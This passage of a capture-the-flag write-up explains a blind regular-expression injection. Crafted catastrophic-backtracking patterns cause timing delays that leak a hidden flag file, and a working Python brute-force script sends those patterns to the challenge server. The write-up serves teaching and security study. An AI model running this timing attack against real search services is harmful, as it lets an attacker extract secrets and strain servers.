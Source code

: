 > There were a couple of other considerations I looked into, but I won't go into detail about those.

#### Solution

While I was stuck in an infinite loop of self-doubt and searching for vulnerabilities, one of my teammates gave me this article:  
[https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)  
(It’s an interesting read, so please check it out.)

The article also referred to the “founder” of the attack: [https://diary.shift-js.info/blind-regular-expression-injection/](https://diary.shift-js.info/blind-regular-expression-injection/) (a more technical read).

It basically explains that regex can be injected in a clever way, similar to blind SQL injection, to retrieve information. You craft a regex so that if it matches, it causes ReDoS (Regular Expression Denial of Service). If there is a timeout in the server response (e.g., the server is slow to respond), you can assume the match happened.

In our case, the server implements a timeout where your search “times out” if it doesn’t finish within 1 second, so we don’t really risk causing a full DoS.

**TL;DR**: You use ReDoS to determine secrets based on the time delay when executing the regex.

So, I wrote a Python script that checks for a time delay to determine whether the flag is correct or not.

> The reason this exploit works is because there’s a timeout that prevents full ReDoS, but the application still searches the content of _all_ files (including `flag.txt`) regardless of its “visibility”.

```python
import requests
import re
import string

base_url = "http://34.162.172.123:3000"
search_api = f"{base_url}/search"
timeout = 1.0

symbols = "}{_|!#$%&()*+,-./:;<=>?@[\\]^~"
characters = f"{symbols}{string.ascii_lowercase}{string.digits}{string.ascii_uppercase}"

# "known" part of the secret
possible_flag = "uoftctf{"
while True:
    for char in characters:
        # Reference: https://diary.shift-js.info/blind-regular-expression-injection/
        query = "/^(?=^" + re.escape(f"{possible_flag}{char}") + ")((((.*)*)*)*)*salt/"
        payload = {
            "query": query,
            "language": "All"
        }
        res = requests.post(search_api, data=payload)
        if res.status_code != 200:
            continue
        seconds = res.elapsed.total_seconds()
        if seconds > timeout:
            possible_flag += char
            print("Building Flag:", possible_flag)
            if char == "}":
                print("flag?")
                break
    if bool(re.match(r"^uoftctf\{.*\}$", possible_flag)):
        break
```